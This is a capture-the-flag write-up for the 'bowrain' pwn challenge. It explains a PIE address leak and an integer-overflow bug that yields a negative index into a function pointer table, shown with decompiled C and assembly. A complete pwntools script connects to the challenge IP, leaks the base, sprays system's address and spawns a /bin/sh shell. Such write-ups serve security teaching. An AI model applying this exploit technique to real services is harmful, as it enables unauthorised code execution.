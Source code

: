 **Description**

> A little known fact about Elon Musk is that he invented the matrix as a
> scheme to sell trendy late 90s screensavers to fund his space adventures.
> That sneaky SOB left his beta screensaver app online and I think it has a
> backdoor.  
>  
> Service: nc pwn2.trinity.neo.ctf.rocks 54321 | nc 159.65.80.92 54321

**Files given**

- `bowrain.tar.gz`

**Solution**

### Problems ###

1. no null termination in function `sub_CB0`, which is used to get a string, so PIE base address can be leaked.  
2. `abs(INT_MIN)` is still a negative number  
3. `x % n` is negative when x is negative

in function `main`

```c  
while ( 1 )  
 {  
   v4[0] = get_number();  
   if ( v4[0] == -1 )  
   {  
     printf("\x1B[31;1merror:\x1B[0m not a number: %s\n", ::a1, *(_QWORD *)v4, v5);  
       // leak PIE possible  
   }  
   else  
   {  
     v4[1] = abs(v4[0]) % 7;//can be negative if v4[0] is 2147483648  
     memset(::a1, 0, endptr - (char *)::a1);  
     v3 = (void (__fastcall *)(char *, _QWORD))*(&off_2030A0 + v4[1]);  
     //will access a function pointer that can be manipulated by input if negative  
     v3(++endptr, 0LL);  
     //++endptr will point to the address just after the null terminator of input  
   }  
   print_choice();  
```

and in `.data`

```assembly  
.data:0000000000203020 a1              db 30h, 7Fh dup(0)  
.data:00000000002030A0 off_2030A0      dq offset sub_AE0  
.data:00000000002030A8                 dq offset sub_B1A  
.data:00000000002030B0                 dq offset sub_B54  
.data:00000000002030B8                 dq offset sub_B8E  
.data:00000000002030C0                 dq offset sub_BC8  
.data:00000000002030C8                 dq offset sub_C02  
.data:00000000002030D0                 dq offset sub_C3C  
```

buffer that holds the input is contiguous with the function pointers.

First of all, since there is no null termination, we can leak address of
`sub_AE0` to get base address.

Secondly, if the index to access the function pointer table is negative, we
can hijack the control flow to function `system`.

```python  
from pwn import *

g_local=False  
#context.log_level='debug'  
if g_local:  
	sh = process('./bowrain')#env={'LD_PRELOAD':'./libc.so.6'}  
	gdb.attach(sh)  
else:  
	sh = remote("159.65.80.92", 54321)

sh.send("A" * 0x80 + "\n")  
sh.recvuntil("A" * 0x80)  
leak = sh.recvuntil(": ")[:6] + "\x00\x00"  
base = u64(leak) - 0xAE0  
print hex(base)

payload = "2147483648" + "\x00" + "/bin/sh\x00"  
payload += "A" * 5  
assert len(payload) == 0x18  
payload += ((0x80 - len(payload)) / 8) * p64(base + 0x958)  
# spray the address of system,  
# so any access of function pointer table with negative index > -7 (by %
operation)  
# will give address of system  
# excact number can be determined by debugging, but spraying is more
convinient  
sh.send(payload + "\n")  
sh.interactive()  
```

Original writeup
(https://github.com/Aurel300/empirectf/blob/master/writeups/2018-05-31-SecurityFest/README.md#261-pwn
--bowrain).